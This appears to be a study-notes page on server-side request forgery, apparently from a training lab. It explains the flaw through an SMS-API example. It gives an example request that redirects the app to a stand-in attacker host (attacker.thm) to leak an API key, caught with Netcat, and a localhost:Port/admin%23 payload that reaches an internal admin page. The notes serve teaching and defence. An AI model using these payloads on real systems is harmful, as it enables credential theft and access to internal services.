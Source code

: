 # 10. Server-Side Request Forgery (SSRF)

## Server-Side Request Forgery

This type of vulnerability occurs when an attacker can coerce a web application into sending requests on their behalf to arbitrary destinations while having control of the contents of the request itself. SSRF vulnerabilities often arise from implementations where our web application needs to use third-party services.

Think, for example, of a web application that uses an external API to send SMS notifications to its clients. For each email, the website needs to make a web request to the SMS provider's server to send the content of the message to be sent. Since the SMS provider charges per message, they require you to add a secret key, which they pre-assign to you, to each request you make to their API. The API key serves as an authentication token and allows the provider to know to whom to bill each message. The application would work like this:

<figure><img src="https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/271d0075650cdf6499f994f99fa7eb8a.png" alt=""><figcaption></figcaption></figure>

By looking at the diagram above, it is easy to see where the vulnerability lies. The application exposes the `server` parameter to the users, which defines the server name of the SMS service provider. If the attacker wanted, they could simply change the value of the `server` to point to a machine they control, and your web application would happily forward the SMS request to the attacker instead of the SMS provider. As part of the forwarded message, the attacker would obtain the API key, allowing them to use the SMS service to send messages at your expense. To achieve this, the attacker would only need to make the following request to your website:

`https://www.mysite.com/sms?server=attacker.thm&msg=ABC`

This would make the vulnerable web application make a request to:

`https://attacker.thm/api/send?msg=ABC`&#x20;

You could then just capture the contents of the request using Netcat:

<figure><img src="../../.gitbook/assets/image (80).png" alt=""><figcaption></figcaption></figure>

This is a really basic case of SSRF. If this doesn't look that scary, SSRF can actually be used to do much more. In general, depending on the specifics of each scenario, SSRF can be used for:\


* Enumerate internal networks, including IP addresses and ports.
* Abuse trust relationships between servers and gain access to otherwise restricted services.
* Interact with some non-HTTP services to get remote code execution (RCE).

example:

<figure><img src="../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

in the website the admin page was only accessible from localhost. as you can see we are using ssrf and putting the website's url for that page. the vulnerable server is parsing the value of the server parameter in the SSRF request and using it in a subsequent request to the specified server. By changing the value of the server parameter to localhost:Port/admin%23, the subsequent request is made to the localhost on the specified port, and the admin page is accessed.

The %23 at the end of the URL is URL-encoded #, which is a comment character in URLs. This effectively comments out the \&id=75482342 parameter, which may not be necessary for accessing the admin page.

and we can't remove the \&id=75482342 part of the url becuase that makes our request invalid in the first place.
